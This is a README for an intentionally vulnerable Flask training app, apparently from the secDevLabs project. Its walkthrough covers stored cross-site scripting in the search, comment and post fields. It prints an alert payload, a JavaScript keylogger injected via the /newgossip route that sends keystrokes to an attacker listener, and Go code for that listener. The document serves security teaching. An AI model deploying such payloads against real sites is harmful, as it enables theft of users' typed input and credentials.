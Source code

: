 # Gossip World

<p align="center">
    <img src="images/banner.png"/>
</p>

Gossip World is a simple Flask app that contains an example of multiple Cross-Site Scripting vulnerabilities and its main goal is to describe how a malicious user could exploit them on this purposefully vulnerable app.

## Index

- [Deploy Apps to Codeready/k8s](#deploy-apps-to-codeready)
- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)


## Deploy Apps to Codeready/k8s

Deploy Apps on Openshift/Codeready with 3 project
- devsecops-dev
- devsecops-stage
- devsecops-prod

Before deploy apps, you must deploy mariadb persistant storage in every project.
```sh
cd deployments
oc apply devsecops-dev.yaml
oc apply devsecops-stage.yaml
oc apply devsecops-prod.yaml
```

Access Apps using route [http://flask-devsecops-dev.apps.example.com][App] ! 😆

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a7/gossip-world
```

```sh
make install
```

Then simply visit [localhost:10007][App] ! 😆

## Get to know the app 💄

To properly understand how this application works, you can follow these simple steps:

- Create a new user
- Try leaving a comment on a gossip
- Try creating your gossip!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

#### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that some entries are not sanitized and can be executed on a web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the following text  is used as an input on these fields:

```
<script>alert(1)</script>
```

Searching for a post:
   <img src="images/attack-1.png" align="center"/>
   <img src="images/attack-2.png" align="center"/>

Adding a new comment to a post:
   <img src="images/attack-3.png" align="center"/>
   <img src="images/attack-4.png" align="center"/>

Adding a new post:
   <img src="images/attack-5.png" align="center"/>
   <img src="images/attack-6.png" align="center"/>


The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

### 🔥

An attacker may abuse these flaws by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will get all keyboard input from a user by persisting a malicious code in the server.

First, the following Golang API can be built (main.go) that logs all received requests:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```
   
To run this code simply type the following command in your terminal (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang): 

```sh
go run main.go
```

Then, the attacker can insert a new post through the **/newgossip** route by using the following code in the text field:

```html
<script>
var k="";
document.onkeypress=function(e) {
   e = e || window.event;
   k+=e.key;
   var i=new Image;
   i.src="http://localhost:1232/"+k;
}
</script>
```

This code implements a keylogger to capture all keyboard input from users and send it to the API created beforehand.

   <img src="images/attack-7.png" align="center"/>

When a victim accesses the post, the browser will interpret the text between the script tag as code and will execute it secretly. The following image shows the victim typing letters into the page that has been "infected" by the malicious JS:

<img src="images/attack-8.png" align="center"/>

The attacker now gets all the input on the server log, as shown below: 

<img src="images/attack-9.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Execute scripts through input fields

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10007

